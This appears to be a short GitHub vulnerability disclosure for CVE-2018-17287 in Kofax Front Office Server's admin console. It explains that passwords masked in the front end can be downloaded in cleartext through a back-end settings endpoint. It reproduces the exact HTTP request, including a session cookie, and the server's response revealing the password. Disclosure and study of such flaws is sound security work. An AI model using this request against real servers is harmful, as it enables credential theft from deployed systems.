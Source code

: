 #CVE-2018-17287-Information Disclosure

In Kofax Front Office Server Administration Console 4.1.1.11.0.5212,some fields, such as passwords, are obfuscated in the front-end, but the cleartext value can be exfiltrated by using the back-end "download" feature, as demonstrated by an mfp.password downloadsettingvalue operation.


<img src="info.png">
<br />


```
GET /Kofax/KFS/Admin/SettingsService/settings/customization/downloadsettingvalue/mfp.ricoh.properties/mfp.password/ HTTP/1.1
Host: *****************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: KFS_AUTH_ADMIN=e3129819-d807-48ec-8ae8-efdb76388c4e
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```


```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
Content-Type: application/xml
Server: Microsoft-IIS/8.5
Content-Disposition: attachment; filename=mfp.password.xml
Set-Cookie: fileDownload=true; path=/
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
Date: Wed, 23 May 2018 12:21:32 GMT
Connection: close
Content-Length: 5

ricoh
```
